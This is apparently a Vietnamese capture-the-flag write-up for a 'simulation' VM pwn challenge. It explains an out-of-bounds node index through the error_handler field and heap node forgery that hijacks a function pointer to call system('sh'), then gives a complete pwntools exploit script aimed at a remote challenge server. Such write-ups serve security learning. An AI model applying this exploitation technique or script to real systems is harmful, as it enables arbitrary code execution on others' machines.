

### I. Tìm Bug

**1. Luồng thực thi**

- Trong bài này sẽ có 3 struct và một enum chúng được định nghĩa như sau:

- ```c
  #define CONSTANT    0
  #define REGISTER    1
  #define MEM         2
  #define MAX_COUNT 0x100
  
  enum COMMAND_TYPE {
      ADD,
      SUBTRACT,
      MULTIPLY,
      DIVIDE,
      STORE,
      LOAD
  };
  
  struct arg {
      size_t type;
      size_t val;
  };
  
  struct command {
      size_t func;
      struct arg arg[3];
  };
  
  struct node {
      uint32_t error_handler;
      uint32_t cur_cmd;
      uint32_t nb_cmd;
      uint32_t next_node;
      int (*error_callback)(struct node *, uint32_t, bool);
      struct command cmd[0];
  };
  
  uint32_t node_head;
  struct node * node_list[MAX_COUNT];
  uint32_t ip;
  uint64_t re[5];
  
  char * mem;
  size_t mem_size;
  ```
  
- Với enum thì nó giống như define vậy nhưng nó sẽ tự động đánh số bắt đầu từ 0 tăng dần đều lên.

- Struct `node` là struct được sử dụng cho quá trình tính toán trong binary này, gồm 6 thành phần con:

  - `error_handler` nó như kiểu là một tín hiệu lỗi để ta biết nó là lỗi gì, cũng giống như `exit(error_handler)`.

  - `nb_cmd` là tổng số command trong một `node` và `cur_cmd` tổng số command đã thực hiện.

  - `next_node` nó là next_index để biết được `node` tiếp theo thực thi là gì.

  - `error_callback` đây là một con trỏ hàm nó thực hiện khi có lỗi.

  - `cmd` là một arraycmd lưu một cấu trúc command, một struct command gồm 2 thành phần, `func` chỉ đinh loại command sẽ thực hiện và 3 `arg` với struct `arg` sẽ có 2 thuộc tính, `type` là loại `arg` ta có 3 loại là `CONSTANT`, `REGISTER`, `MEM` với mỗi loại giá trị `value` của chúng sẽ khác nhau.

  - `re` nơi lưu giá trị của `REGISTER` và `mem` được cấp phát động theo `mem_size` nó là nơi lưu giá trị của `MEM`.

- Ở `main` ta có 3 chức năng chính là `new_node`, `Run` và `Exit`.

  - `new_node` ta sẽ tạo một `node` theo cấu trúc ở trên, nhưng có một số ràng buộc về giá trị như sau:

    - ```c
      if ( (type > MEM ) || !check_func(func) || (type == REGISTER && val >= 5) || (type == MEM && val >= 0xffffffff)) {
                      free(node);
                      puts("Invalid commands");
                      return;
                  }
      ```

    - Với `type` là `CONSTANT` hoặc `REGISTER` thì `value < 5` còn `type` là `MEM` thì `value <  0xffffffff`.  Do vậy lúc nhập command `read(0, node->cmd, sizeof(struct command) * nb_cmd);` thì chúng ta phải dùng `p64()` vì nó nhận data theo kiểu read và ta sẽ nhập luôn cả `fun` và 3 `arg`.
    
    - ```c
      printf("Use default handler? (y/n): ");
          read(0, buf, 2);
          if (buf[0] == 'Y' || buf[0] == 'y') {
              printf("Input default error handler: ");
              handler = read_int();
              if (handler == 1) {
                  node->error_callback = &handler1;
              }
              else if (handler == 2)
              {
                  node->error_callback = &handler2;
              }
              else {
                  node->error_callback = &handler3;
              } 
          }
          else {
              printf("Input error handler: ");
              handler = read_int();
              node->error_handler = handler;
          }
      ```
    
    - ngoài ra chúng ta sẽ có 2 `option`, để ta có thể set `error_callback` hoặc chọn set `error_handler`.
    
  - Với chức năng `Run`, chức năng đảm nhiệm tính toán trong đó nó chia làm 2 phần phần đầu dùng để tính toán size cho `MEM` thông qua hàm `simulate` và một hàm thực hiện hoàn chỉnh là `run`.
  
      - 2 hàm này dường như giống nhau hoàn toàn chúng đều trải qua các bước tính toán, tuy nhiên các thao tác trên `MEM` thì không được thực hiện trên `simulate`, bởi vốn dĩ với `MEM` thì nó chỉ thực hiện tính size mà thôi. Để hiểu hơn ta sẽ  tìm ra điểm khác nhau giữa chúng.
      
  
      - Có 2 cặp chức năng chính được sài trên 2 hàm này là `get_val_safe` + `store_val_safe` cho `simulate` và `get_val` + `store_val` về cơ bản chúng là `get` và `set` giá trị cho một `arg`.
      
  
      - ```c
        uint64_t get_val(struct arg * arg) {
            switch (arg->type) {
                case CONSTANT:
                    return arg->val;
                case REGISTER:
                    return re[arg->val];
                case MEM:
                    return *(uint64_t *)(&mem[arg->val]);
            }
        }
        
        void store_val(struct arg * arg, uint64_t val) {
            switch (arg->type) {
                case CONSTANT:
                    return;
                case REGISTER:
                    re[arg->val] = val;
                    return;
                case MEM:
                    *(uint64_t *)(&mem[arg->val]) = val;
                    return;
            }
        }
        
        uint64_t get_val_safe(struct arg * arg) {
            switch (arg->type) {
                case CONSTANT:
                    return arg->val;
                case REGISTER:
                    return re[arg->val];
                case MEM:
                    if (arg->val + 8 > mem_size) {
                        mem_size = arg->val + 8;
                        return 0;
                    }
                    return 0;
            }
        }
        
        void store_val_safe(struct arg * arg, uint64_t val) {
            switch (arg->type) {
                case CONSTANT:
                    return;
                case REGISTER:
                    return re[arg->val] = val;
                case MEM:
                    if (arg->val + 8 > mem_size) {
                        mem_size = arg->val + 8;
                        return;
                    }
            }
        }
        ```
      
  
      - Ta có thể thấy được điểm khác nhau ở đây là:
      
  
      - ```c
        case MEM:										# get simulate
            if (arg->val + 8 > mem_size) {
                mem_size = arg->val + 8;
                return 0;
            }
            return 0;
        case MEM:										# get run
            return *(uint64_t *)(&mem[arg->val]);
        ```
      
  
      - `get` của `simulate` thì nó sẽ tính toán size thay thì thực hiện `get` như `run` lý do là vì nếu `arg->val` (sẽ là index của `mem`) vượt size thì sẽ xuất hiện `OOB`. Tương tự với `set` cũng như vậy, ngoài ra việc `get` của `REGISTER` cũng theo index là `arg->val` tuy nhiên nó cũng đã bị giới hạn lại lúc ta nhập `cmd` như mình đã trình bày ở trên do vậy xảy ra `OOB` trong node là không thể.
      
  
      - Mình sẽ nói về tính năng `ADD` và có thể tự hình dung ra các tính năng khác hoạt động như thế nào:
  
      - ```c
        case ADD:
            tmp = get_val(&cur_node->cmd[cur_node->cur_cmd].arg[0]) + get_val(&cur_node->cmd[cur_node->cur_cmd].arg[1]);
            store_val(&cur_node->cmd[cur_node->cur_cmd].arg[2], tmp);
            cur_node->cur_cmd++;
            break;
        ```
  
      - `ADD` nó sẽ lấy `value` của `arg[0]` và `arg[1]` rồi cộng lại với nhau và đưa vào `arg[2]` theo `type` tương ứng.
  
      - Ví dụ ta có `arg[0].type = RE, arg[0].val = 2`, `arg[1].type = CONSTANT, arg[1].val = 4` và `arg[2].type = MEM, arg[2].val = 0x20` thì kết quả sẽ là `mem[arg[2].val] = re[2] + arg[1].val = 4`
      
  - Về cách duyệt `note` đối với 2 hàm `simulation` và `run` là nó cùng một cơ chế:
  
    - ```c
      struct node * cur_node;
      ip = node_head;
      ```
  
    - `cur_node` sẽ đại diện cho `node` đang được duyệt, còn `ip` sẽ là index của `node` được gán từ `node_head` (start node nhập từ option 2), và nó có thuật toán duyệt như sau:
  
    - ```c
      cur_node = node_list[ip];
      if (!cur_node) {
          break;
      }
      if (cur_node->cur_cmd >= cur_node->nb_cmd) {
          if (cur_node->next_node) {
              ip = cur_node->next_node;
              cur_node = node_list[ip];
          }
          else {
              break;
          }
      }
      ```
  
    - Đầu tiên thực hiện kiểm tra `cur_node`  có tồn tại hay không, nếu không thì thoát.
  
    - Tiếp theo nó sẽ kiểm tra số `cmd` đã được thực hiện hết hay chưa nếu chưa thực hiện hết thì giữ nguyên `cur_node` và thực hiện tiếp.
  
    - Nếu đã thực hiện hết `cmd` tức `cur_node->cur_cmd >= cur_node->nb_cmd` thì nó sẽ cập nhật `cur_node` theo  `next_node` của `cur_node` hiện tại.

**2. Bug**

- Bug nó xuất hiện khi mà trong quá trình duyệt `node` thì giá trị `ip` lại được sử dụng cho việc gán giá trị khác `ip = cur_node->error_handler` gây ra lỗi `OOB`.

- Do `error_handler` ta có thể control được nên ta có thể ra ngoài vùng `node`, vượt quá max index là 256.

- Ta có thể thấy được rằng trong `node` chứa một con trỏ hàm `error_callback` nếu ta thay đổi được giá trị này thành một hàm mong muốn như `system` thì ta có thể thực thi được mã tùy ý.

- `node` sẽ nằm trên `heap` do đó ta phải control được trên `heap`. Với lỗi trên thì làm sao ta có thể thay đổi `error_callback` thành một giá trị khác. Ta biết được rằng `mem` nằm trên `heap`  nhưng nó không thể xảy ra `OOB` như đã nói ở trên, vậy sẽ ra sao `mem` chính là một `node`, ta có thể đưa dữ liệu vào `mem` tùy ý nên ta có thể tái cấu trúc của `node` lên `mem` mà không bị kiểm duyệt data của `cmd` ở trong phần `new_node`:

  ```c
  if ( (type > MEM ) || !check_func(func) || (type == REGISTER && val >= 5) || (type == MEM && val >= 0xffffffff)) {
                  free(node);
                  puts("Invalid commands");
                  return;
              }
  ```

- Do đó ta có thể set một `arg` với `type=REGISTER` và `val` là một số âm để có thể trỏ đến phân vùng got, đây sẽ là `arg[0]` trên `mem` khi get nó `return re[arg->val]`, để có số âm thì có nhiều cách như sài `div` với `sub` ví dụ như: `0 - (x*y)` để tạo một số âm làm sao cho `re[arg->val]` trỏ đến `got` ta có thể get được `libc`.

- Tương tự ta tạo thêm `arg[1]` với `val=offset` và `type=CONSTANT` khi get `return arg->val` để nó add hoặc sub tạo ra `system`, `offset` này có thể lưu trên `re` luôn cũng được dùng, nếu offset quá lớn buộc ta phải ghép offset, ví dụ offset là `0xdead` thì đầu tiên ta sẽ set `mem->arg[1]->val = 0xad` tiếp đến `mem->arg[1]->val + 1 = 0xde` việc set này thông qua hàm set với `type=REGISTER`.

- Sau khi có offset thì ta set `arg[2]`, `type=MEM`, vì chúng ta cần ghi đè `error_callback` trên `node_mem` và `val=5*8` đây là vị trí của `error_callback` do `mem` được khai báo kiểu `char*` nên nó sẽ đi theo từng `byte`.

- Sau khi set xong các arg thì ta sẽ chỉ định `cmd->fun` của `mem` thì tùy vào `offset` nếu âm thì `SUB` còn dương thì `ADD`, sau khi `ADD/SUB` xong thì ta phải cho nó gọi `error_callback` bằng một trong 3 `fun` là `DIVIDE, LOAD, STORE` nó sẽ gọi đến `resolve_error`:

- ```c
  uint32_t resolve_error(struct node * cur_node, uint32_t ip, bool debug) {
      if (cur_node->error_callback) {
          if (!debug) {
              cur_node->cur_cmd++;
              return 1;
          }
          if (cur_node->error_callback(cur_node, ip, debug)) {
              return 0;
          }
          else {
              cur_node->cur_cmd++;
              return 1;
          }
      }
      else {
          cur_node->cur_cmd = 0;
          return 2;
      }
  }
  ```

- Do đó ta sẽ tạo thêm một `cmd` với `fun` là một trong 3 cái trên đồng thời ta sẽ set `nb_cmd=2` để nó sẽ thực hiện 2 `cmd` là `ADD/SUB` và `DIVIDE/LOAD/STORE`. Ngoài ra ta sẽ set thêm `error_handler` thành`sh` là chuỗi đầu vào cho `error_callback('sh')`.

- Sau khi set xong thì làm sao để đưa `mem` vào `cur_node`, tất nhiên là lỗi `OOB` ở trên rồi, ta sẽ set `ip=256` thì nó sẽ trỏ đến `mem` lúc này nó sẽ thực hiện tính toán trên `mem`:

- `ADD`: `arg[0] = re[arg->val]` để lấy libc got, `arg[1] = arg->val` lấy offset và `arg[2] = mem[arg[2]->val] = re[arg[0]->val] + arg[1]->val]` để gán vào `error_callback`. Sau đó gọi `STORE` để gọi `error_callback` tức `system`.

### II. Script

- ```python
  #!/usr/bin/python3
  
  from pwn import *
  
  exe = ELF('simulation_patched', checksec=False)
  libc = ELF('libc.so.6', checksec=False)
  context.binary = exe
  
  info = lambda msg: log.info(msg)
  sla = lambda msg, data: r.sendlineafter(msg, data)
  sa = lambda msg, data: r.sendafter(msg, data)
  sl = lambda data: r.sendline(data)
  s = lambda data: r.send(data)
  sln = lambda msg, num: sla(msg, str(num).encode())
  sn = lambda msg, num: sa(msg, str(num).encode())
  
  def new_note(idx, n_cmd, next_note, cmd = b'', yn = b'', handler = -1):
      sln(b'> ', 1)
      sln(b'Index: ', idx)
      sln(b'command: ', n_cmd)
      sln(b'node: ', next_note)
      if cmd != b'':
          sa(b'list: ', cmd)
      if yn != b'' and handler != -1:
          sa(b'(y/n): ', yn)
          sln(b'handler: ', handler)
      
  def run(id):
      sln(b'> ', 2)
      sln(b'start? ', id)
  
  def GDB():
      gdb.attach(r, gdbscript='''
          b*main+52
          # # b*new_node+844
          # b*simulate+694
          # b*simulate+1486
          # b*simulate+1587
          # b*store_val_safe+103
          # b*get_val_safe+25
          b*main+212
          # b*run+334
          b*run+117
          ni
          c
          c 8
      ''')
  
  
  if args.REMOTE:
      r = remote('103.163.25.143', 20007)
  else:
      r = process(exe.path)
      GDB()
  
  ### normal 0; re 1; mem 2
  
  cmd = flat(
      0, 
      0, 0,
      0, 1,
      2, 0x201
  )
  new_note(2, 1, 3, cmd, b'y', 1)
  cmd = flat(
      1, 
      0, 0,
      2, 0x200,
      1, 0
  )
  new_note(3, 1, 4, cmd, b'y', 1)
  cmd = flat(
      1, 
      1, 0,
      0, 4,
      1, 0
  )
  new_note(4, 1, 5, cmd, b'y', 1)
  cmd = flat(
      1, 
      1, 0,
      0, 4,
      1, 0
  )
  new_note(5, 1, 6, cmd, b'y', 1)
  cmd = flat(
      1, 
      1, 0,
      0, 4,
      1, 0
  )
  new_note(6, 1, 7, cmd, b'y', 1)
  cmd = flat(
      4, 
      2, 0x28,
      1, 0,
      0, 0
  )
  new_note(7, 1, 8, cmd, b'y', 1)
  cmd = flat(
      4, 
      2, 0x20,
      0, 1,
      0, 0
  )
  new_note(8, 1, 9, cmd, b'y', 1)
  cmd = flat(
      4, 
      2, 0x40,
      0, 1,
      0, 0
  )
  new_note(9, 1, 11, cmd, b'y', 1)
  cmd = flat(
      0, 
      0, 4,
      0, 4,
      1, 1,
      2, 
      1, 1,
      0, 4,
      1, 1,
      2, 
      1, 1,
      0, 3,
      1, 1,
      0, 
      1, 1,
      0, 4,
      1, 1,
      0, 
      1, 1,
      0, 1,
      1, 1,
  
  
      2, 
      0, 4,
      0, 3,
      1, 2,
      0, 
      1, 1,
      1, 2,
      1, 2,
      0, 
      1, 2,
      0, 1,
      1, 2,
  )
  new_note(11, 8, 12, cmd, b'y', 1)
  cmd = flat(
      4, 
      2, 0x30,
      0, 0,
      0, 0,
      4, 
      2, 0x39,
      1, 1,
      0, 0,
      4, 
      2, 0x3a,
      1, 2,
      0, 0,
      3,
      2, 0x38,
      0, 4,
      2, 0x38,
  
      0, 
      1, 2,
      0, 1,
      2, 0,
      0, 
      1, 1,
      0, 3,
      2, 1,
      2,
      0, 4,
      0, 4,
      2, 0x48,
      4,
      2, 0x40,
      0, 2,
      0, 0,
      4,
      2, 0x50,
      0, 4,
      0, 0,
      4, 
      2, 8,
      0, 2,
      0, 0,
      4, 
      2, 0x18,
      0, 1,
      0, 0
  )
  new_note(12, 11, 13, cmd, b'y', 1)
  cmd = flat(
      4, 
      0, 0,
      0, 0,
      0, 0
  )
  new_note(13, 1, 0, cmd, b'n', 265)
  run(2)
  
  r.interactive()
  ```

- 

